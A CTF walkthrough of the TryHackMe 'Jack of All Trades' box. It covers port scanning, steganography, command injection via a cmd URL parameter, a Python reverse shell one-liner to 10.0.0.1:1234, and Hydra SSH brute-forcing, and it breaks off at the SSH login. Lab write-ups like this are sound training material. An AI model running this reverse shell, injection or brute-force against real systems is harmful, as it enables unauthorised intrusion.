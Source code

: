 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box written by MuirlandOracle and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")
+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``
      
+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser. [Allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's go and try to get some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=whoami``

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on our's**

**The Jack box**
``www-data@jack-of-all-trades:/home$ python -m SimpleHTTPServer 6999``
**Our machine**
``{kali@kali:Jack of All Trades_0}$ wget 10.10.252.248:6999/jacks_password_list``

+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra(1).jpg?raw=true "hydra")

**Let's connect into the ssv server with our credentials**












